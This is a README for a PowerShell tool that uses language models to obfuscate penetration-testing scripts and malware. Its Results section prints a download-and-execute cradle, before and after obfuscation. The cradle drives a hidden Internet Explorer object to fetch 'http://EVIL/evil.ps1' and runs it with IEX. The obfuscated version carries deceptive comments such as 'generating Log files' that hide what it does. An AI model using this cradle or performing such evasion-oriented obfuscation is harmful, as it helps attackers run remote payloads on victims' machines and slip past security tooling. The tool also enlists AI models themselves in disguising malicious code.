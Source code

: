 # Invoke-GPTObfuscation
Invoke-GPTObfuscation is a PowerShell Obfuscator that utilizes OpenAI or compatible text-completion models to obfuscate your PowerShell penetration testing code, malware, or any other sensitive script. **This code is intended for Educational & Research purposes only.**

This is mostly demonstrational, and will frequently create invalid code. You'll need to come up with a better prompt to get good results. If you make any improvements, please consider submitting a pull request!

With better prompt templates, or better models (GPT-4), this tool can achieve much more impressive results. I've found GPT-4 can perform impressive code mutations that completely change the structure of the code.

**(TODO) Future Improvements:**
- Convert variable names to placeholder-symbols via Regex to maintain across code (eg: $<VAR1>, $<VAR2>)
- Validate syntax, optionally re-generate if there is a syntax error
- Instead of building blocks line-by-line, try to build blocks by { context }
- Add in options into the prompt that the model can try to replicate
- Add support for other providers/API (Anthropic/Claude?)
  
---

## Credits
### Author: Hunter Watson
### Original Repo: https://github.com/hwvs/Invoke-GPTObfuscation
### License: Mozilla Public License 2.0

---

## Usage

Run the CLI tool (in a powershell window): `./Invoke-GPTObfuscation.ps1`

Use the module in your code
```powershell
# load the module however is easiest for you, eg:
$module_path = $pwd.Path + "/Invoke-GPTObfuscation.psm1"
Invoke-Expression (Get-Content $module_path -Raw)
  
#...

$script_obfuscated = Invoke-GPTObfuscation -ScriptBlock $script -PromptTemplateFile $prompt_template_path -Verbose $true
```

---

## Results 

Before:
```powershell
$ie=New-Object -comobject InternetExplorer.Application;
$ie.visible=$False;
$ie.navigate('http://EVIL/evil.ps1');
start-sleep -s 5;
$r=$ie.Document.body.innerHTML;
$ie.quit();
IEX $r
```

After:
```powershell
# generating Log files
$Strawberry = New-Object -CoMObjEcT inTErnETeXPLOreR.Application;
$strawberry.vISiblE = $fAlSe;
$STRaWbeRRy.NAVigatE('HttP://evIl/evil.ps1');
stArT-SlEEp -s 5;

# Updating log directory path
$r = $StrawberrY.DoCument.BoDy.InneRHTML;

# Cleanup
$strawBerRy.quiT();

# Execute payload
IeX $R
```
*(Note: This result was cherry-picked)*
